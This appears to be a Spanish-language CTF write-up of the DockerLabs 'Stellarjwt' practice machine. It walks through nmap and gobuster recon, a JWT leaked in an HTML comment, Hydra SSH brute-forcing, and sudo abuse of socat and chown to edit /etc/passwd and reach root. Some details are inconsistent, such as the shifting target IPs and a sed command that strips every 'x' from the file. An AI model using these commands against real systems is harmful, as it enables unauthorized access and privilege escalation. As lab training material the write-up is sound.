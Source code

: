 ```yaml
---
title: Stellarjwt
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-03
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-stellarjwt/stellarjwt_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - ssh
  - http
  - tcp
  - fuzzing_web
  - data_leaks
  - password_attacks
  - sudo_abuse
  - web_analysis
  - data_leak_exploitation
  - lateral_movement
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ ping -c 1 127.17.0.2                 
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.065 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.065/0.065/0.065/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv 127.17.0.2 -n -Pn -oG nmap1
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ sudo nmap -sCV -p22,80 -vvv 127.17.0.2 -oN nmap2
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 13:fd:a1:b2:31:9d:ea:33:a1:43:af:44:20:3a:12:12 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEOj/HRDdBjMOnahF64+funtJuqp9p12aIRd36Qc/LhxP96Vzgbb3TBmmlikTqGqRVAlF24M53fdp9pABYc9Z5c=
|   256 a0:4f:c4:a9:00:af:cb:78:28:fd:94:c0:86:28:dc:a1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBQCVaYlLtT3rl2JLsXE13whHLmBXeknIoPXXK13Du5A
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: NASA Hackeada
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ whatweb 127.17.0.2
http://127.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[127.17.0.2], Title[NASA Hackeada]
```

---
## Web Analysis & Data Leak Exploitation

Encuentro una página web estática con una simple pregunta que dice,
"¿Qué astrónomo alemán descubrió Neptuno?".

![](assets/img/dockerlabs-writeup-stellarjwt/stellarjwt1_1.png)

Tras una rápida búsqueda, obtengo la respuesta.

![](assets/img/dockerlabs-writeup-stellarjwt/stellarjwt1_2.png)

Analizo la web en busca de directorios adicionales.

```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://127.18.0.2/
/universe             (Status: 301) [Size: 311] [--> http://127.18.0.2/universe/]
```

Identifico un nuevo directorio llamado `/universe`, pero aparentemente no contiene información visible a simple vista.

![](assets/img/dockerlabs-writeup-stellarjwt/stellarjwt1_3.png)
![](assets/img/dockerlabs-writeup-stellarjwt/stellarjwt1_4.png)

Sin embargo, inspeccionando el código fuente, encuentro un comentario interesante que incluye un token JWT.

```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ echo 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6Im5lcHR1bm8iLCJpYXQiOjE1MTYyMzkwMjJ9.t-UG_wEbJdc_t0spVGKkNaoVaOeNnQwzvQOfq0G3PcE' > hash.txt

/home/kali/Documents/dockerlabs/stellarjwt:-$ hashcat --show hash.txt
    # | Name                                            | Category
======+=================================================+==============================
16500 | JWT (JSON Web Token)                            | Network Protocol
```

Decodifico el JWT con [cyberchef](https://cyberchef.org) y revelo un campo que define un usuario.

![](assets/img/dockerlabs-writeup-stellarjwt/stellarjwt2_1.png)

Con el usuario identificado, creo un diccionario personalizado basándome en términos relacionados con la temática de la maquina. Y utilizo hydra para realizar un ataque de fuerza bruta contra el servicio SSH del servido.

```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ grep -i 'neptuno\|nasa\|Johann\|Gottfried\|Galle' /usr/share/wordlists/rockyou.txt > nasa_creds.txt

/home/kali/Documents/dockerlabs/stellarjwt:-$ sudo hydra -l neptuno -P nasa_creds.txt ssh://172.17.0.2 -t 60 -I
```

![](assets/img/dockerlabs-writeup-stellarjwt/stellarjwt2_2.png)

El ataque tiene éxito y obtengo las credenciales SSH.

```terminal
/home/kali/Documents/dockerlabs/stellarjwt:-$ ssh neptuno@127.17.0.2
neptuno@127.17.0.2's password: Gottfried

neptuno@kali:~$ id
uid=1001(neptuno) gid=1001(neptuno) groups=1001(neptuno),100(users)
```

---
## Lateral Movement

```terminal
neptuno@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
neptuno:x:1001:1001:neptuno,,,:/home/neptuno:/bin/bash
nasa:x:1002:1002:NASA,,,:/home/nasa:/bin/bash
elite:x:1000:1000:elite,,,:/home/elite:/bin/bash
```

En el directorio personal de `neptuno`, encuentro un archivo de texto llamado `.carta_a_la_NASA.txt`.

```terminal
neptuno@kali:~$ cat .carta_a_la_NASA.txt
```

![](assets/img/dockerlabs-writeup-stellarjwt/stellarjwt3_1.png)

Dentro del archivo, se menciona a la NASA o al usuario `nasa` junto con una posible contraseña `Eisenhower` la cual es valida.

```terminal
neptuno@kali:~$ su nasa
Password: Eisenhower

nasa@kali:~$ id
uid=1002(nasa) gid=1002(nasa) groups=1002(nasa),100(users)
```

---

Reviso los permisos del usuario `nasa`.

```terminal
nasa@kali:~$ sudo -l
Matching Defaults entries for nasa on kali:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User nasa may run the following commands on kali:
    (elite) NOPASSWD: /usr/bin/socat
```

El resultado indica que `nasa` puede ejecutar `socat` como el usuario `elite` sin necesidad de contraseña.

Consulto la página de [GTFOBins](https://gtfobins.github.io/gtfobins/socat/#sudo>) para identificar como ganar acceso al usuario `elite`.

```terminal
nasa@kali:~$ sudo -u elite /usr/bin/socat stdin exec:/bin/sh
2025/01/11 20:58:12 socat[203] W address is opened in read-write mode but only supports read-only

id
uid=1000(elite) gid=1000(elite) groups=1000(elite),100(users)
```

---
## Privilege Escalation

```terminal
script /dev/null -c bash 
```

Verifico los permisos del usuario `elite`.

```terminal
elite@kali:~$ sudo -l
Matching Defaults entries for elite on kali:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User elite may run the following commands on kali:
    (root) NOPASSWD: /usr/bin/chown
```

El usuario `elite` tiene permisos para ejecutar el comando `chown` como `root` sin necesidad de contraseña.

<https://gtfobins.github.io/gtfobins/chown/#sudo>

Utilizo `chown` para cambiar la propiedad del directorio `/etc` a `elite`.

```terminal
elite@kali:~$ sudo -u root /usr/bin/chown elite:elite /etc

elite@kali:~$ ls -l /
drwxr-xr-x   1 elite elite 4096 Jan 11 17:39 etc
```

Modifico la propiedad del archivo `/etc/passwd` para permitir su edición.

```terminal
elite@kali:~$ sudo -u root /usr/bin/chown elite:elite /etc/passwd

elite@kali:~$ ls -l /etc/passwd
-rw-r--r-- 1 elite elite 1300 Oct 23 21:11 /etc/passwd
```

Edito el archivo `/etc/passwd` para eliminar las contraseñas `x` del usuario `root`, lo que me permite acceder sin necesidad de autenticación.

```terminal
elite@kali:~$ sed -i 's/x//g' /etc/passwd

elite@kali:~$ su root

root@kali:/home/elite# id
uid=0(root) gid=0(root) groups=0(root)
```
